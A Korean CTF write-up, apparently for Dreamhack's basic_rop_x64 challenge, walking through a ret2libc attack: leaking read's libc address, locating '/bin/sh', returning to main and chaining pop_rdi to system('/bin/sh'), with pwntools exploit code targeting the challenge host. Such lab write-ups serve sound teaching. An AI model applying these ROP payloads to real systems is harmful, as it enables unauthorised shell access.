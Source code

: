 위와 같은 경우 맨 마지막에 붙은 0a는 puts로 출력할 때 붙는 개행 문자이므로  앞의 6바이트가 read의 라이브러리상 주소이다. 즉 위와 같은 경우 0x7f0a06036350이 된다.

그러면 이제 시스템함수 주소도 알아냈고 매개변수로 줄 “/bin/sh”의 위치만 알아내면 된다. 이는 라이브러리에서 오프셋을 알아낼 수 있다.

```solidity
┌──(root💀kali)-[~/바탕화면/basic_rop_64]
└─# strings -tx libc.so.6 | grep "/bin/sh"
 18cd57 /bin/sh
```

libc.so.6에서의 오프셋은 0x18cd57임을 확인할 수 있다. 라이브러리 base 주소를 알기 때문에 이 /bin/sh의 주소도 알 수 있다.

따라서 이를 이용하여 system(”/bin/sh”)를 실행시킬 것이다. 

### system(”/bin/sh”)를 실행시키려면 라이브러리 상의 system 주소를 알고난 후에 실행해야 하는데 페이로드 하나로 어떻게 짜요?

이게 가장 문제다. 기존 문제에서는 이를 해결하기 위해서 가젯 이후 가젯을 연결하여 체인을 통해서 실행시켰지만 read_got 덮어씌우는 것도 정상적으로 성공하고 system 함수 주소도 정확하게 구했는데도 system(”/bin/sh”)가 잘 안되었다.

그래서 라이브러리 base 주소를 구한 후 main 함수의 시작점으로 다시 돌아가는 방식을 채택했다. 즉 익스코드에서 write(1,read_got,rdx) 가젯을 통한 실행 후 main의 위치로 돌아가게 해준다.

```python
# write(1,read_got,rdx)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15)+p64(read_got)+p64(0)
payload += p64(write_plt)
payload += p64(e.symbols['main'])
```

그러면 다시 main 함수로 시작되므로 system(”/bin/sh”)를 가젯을 통해 실행시키면 끝이다. system주소도 알고 “/bin/sh”의 주소도 오프셋을 통해 구할 수 있으므로 가능하다. 

### system(”/bin/sh”)

```python
# system 주소와 /bin/sh 문자열의 주소를 구한 후 페이로드 작성

bin_sh_offset= 0x18cd57
bin_sh= library_base+bin_sh_offset
system_library = library_base + library.symbols['system']

payload2=b'A'*0x40+b'B'*0x8
payload2+=p64(pop_rdi)+p64(bin_sh)
payload2+=p64(system_library) 
```

즉 최종적인 익스코드는 다음과 같다.

```python
from pwn import *

host="host3.dreamhack.games"
port=17771
p=remote(host,port)
#p=process('./basic_rop_x64')

e=ELF('./basic_rop_x64') # 파일 불러오기
library = ELF('./libc.so.6') # 라이브러리 불러오기
#library = e.libc

# read 함수의 got에 적혀있는 read함수의 라이브러리 주소를
# system 함수의 라이브러리 주소를 덮어 씌울 것이므로 read의 got주소를 알아야함
write_plt = e.plt['write'] # write 함수의 plt 주소 0x4005d0
read_plt = e.plt['read'] # read 함수의 plt 주소 0x4005f0
read_got = e.got['read'] # read 함수의 got 주소
print(hex(read_got))
```